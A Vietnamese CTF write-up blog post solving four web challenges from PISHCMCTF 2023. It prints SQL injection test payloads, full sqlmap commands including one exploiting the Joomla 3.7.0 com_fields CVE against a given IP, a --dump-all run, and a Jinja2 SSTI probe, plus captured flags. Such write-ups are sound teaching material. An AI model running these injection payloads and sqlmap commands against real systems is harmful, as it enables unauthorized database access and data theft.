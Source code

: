 ```yaml
---
title: "PISHCMCTF 2023 - webx4"
layout: single
excerpt: "The contest takes place from 8:AM February 11, 2023 to 8:AM February 12, 2023
Contest format: Jeopardy according to TEAM (4 members, if there are not enough people, please type x in the remaining content.) 💻 "
header:
show_date: true
classes: wide
header:
  teaser: "https://hackmd.io/_uploads/SyyOC7oja.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/SyyOC7oja.png">
</p>

# Blog of "LoveSicker"
WEB

## Solution
giao diện web :

![](https://hackmd.io/_uploads/ByxDuiHjn.png)


dùng dirsearch để tìm các thư mục ẩn 
sau đó mình lại chạy các payload phổ biến để check lỗi.
kết quả mình tìm thấy thư mục Display_Post.php có param là id.
payload này hoạt động: `/Display_Post.php?id=1337/(3*2-5)`

![](https://hackmd.io/_uploads/B1dvuoBi2.png)

tiếp tục mình lại cho request vào 1.txt và chạy sqlmap.
và nhận được flag

![](https://hackmd.io/_uploads/H1eOuiHo3.png)

flag: `ChristCTF{SQLi_1s_3asy_R1ght?}`

# Chôm la
WEB

## Solution:
tên chall này là chôm la và công nghệ web là Joomla

với dạng này thì đầu tiên mình sẽ tìm xem phiên bản Joomla hiện tại là bao nhiêu

![](https://hackmd.io/_uploads/Skm9dsBjh.png)

thì mình thấy phiên bản hiện tại là 3.7.0 là một phiên bản thấp

Google search: Joomla 3.7.0 exploit 
thì mình tìm thấy một CVE có thể khai thác được
> https://www.exploit-db.com/exploits/42033

![](https://hackmd.io/_uploads/SycqdsSih.png)

command: `sqlmap -u "http://54.169.55.172:8000/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`

và mình nhận được flag trong database.
flag ở trong table flag

![](https://hackmd.io/_uploads/BJzidiHj3.png)

giải mã base64 là nhận được cờ

flag: `PISCTF{PHP_J00mla_3_7_0_!_CVE}`

# SQL Routed
WED

## Solution
giao diện web như này:

![](https://hackmd.io/_uploads/rkfTusBin.png)

mình nhập lung tung vào thì không thấy gì xảy ra cả.

bắt request và test thử một vài dấu hiệu hay gặp thì mình thấy payload này hoạt động: 
`-1' OR 3*2*1=6 AND 000700=000700 --`

Không hiểu sao nó in ra được thông tin của ID = 2

![](https://hackmd.io/_uploads/rJFpuiBjn.png)

Điều này cho thấy có thể tấn công sql injection ở đây.

mình đưa luôn toàn bộ request vào file 1.txt và chạy sqlmap.
` sqlmap -r 1.txt --dump-all --threads=5`

flag chính là mật khẩu trong database.

"bài này chạy lâu quá, làm lại chưa lấy được flag"

# Super hero
WED

## Solution:
truy cập vào đường dẫn được cung cấp thì mình nhận được một form như này:

![](https://hackmd.io/_uploads/rkv1Kiroh.png)

mình scan vào input bằng một số payload cơ bản thì nhận thấy rằng có thể tấn công SSTI.

payload: `/?user=%7B%7B7*7%7D%7D`

![](https://hackmd.io/_uploads/SkJgYsBs3.png)

kết quả hiện thị ra màn hình là 49 nên ta có thể bắt đầu khai thác SSTI.
từ đo sta có thể kết luận là jinja2 hoặc là twig

![](https://hackmd.io/_uploads/SJIgFsron.png)

sau khi thử một vài payload SSTI trên payloadallofthing thì mình nhận thấy: 
các payload của jinja2 đều dùng được nên có thể chắc chắn là jinja2.

![](https://hackmd.io/_uploads/S1ubFoSsn.png)

![](https://hackmd.io/_uploads/HkWQtoHjh.png)



tiếp tục tìm kiếm trên một số trang thì mình tìm thấy, cách khai thác này:

![](https://hackmd.io/_uploads/rJu7FoBo3.png)

payload:

![](https://hackmd.io/_uploads/HkmRPPfRn.png)

![](https://hackmd.io/_uploads/Bka7tjHj3.png)

flag: `PISCTF{s0_3zsy_SSTI_F0R_K1d}`